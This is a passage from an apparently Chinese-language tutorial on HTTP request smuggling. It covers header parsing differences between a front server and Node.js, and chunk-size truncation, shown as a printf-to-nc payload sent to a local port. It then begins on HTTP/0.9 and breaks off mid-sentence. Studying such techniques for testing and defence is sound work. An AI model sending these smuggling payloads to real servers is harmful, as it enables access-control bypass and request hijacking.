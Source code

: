 Front 服务器就会认为`Dummy: Header\rZTransfer-Encoding: chunked\r\n`是一个 header ，使用 CL 头解析，会认为这是一个完整的请求，而 Node.js 会认为`\rZ`是一个换行，按照 TE 优先于 CL 的解析规则，认为这是两个请求，就产生了解析差异。

### Size Issue

还可以利用一些编码块长度产生解析差异，例如：

```plain
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

某些中间件在解析块大小的时候，会将长度块大小长度进行截断，比如这里表现为只取`'0000000000000000000000000000042`为`00000000000000000`，这样就会认为这是两个请求了，第一个请求的块大小为0，第二个就会请求`/tmp`，就导致了 HTTP Smuggling。

### HTTP Version

这个主要是由于 HTTP/0.9 引起的问题，我们先来看看 HTTP 几个版本的 example ：

HTTP v1.1

```plain
GET /foo HTTP/1.1\r\n
Host: example.com\r\n
```

HTTP v1.0

```plain
GET /foo HTTP/1.0\r\n
\r\n
```

HTTP v0.9

```plain
GET /foo\r\n
```

并且 HTTP/0.9 请求包与响应包是都没有 headers 的概念的，也就是说如下：
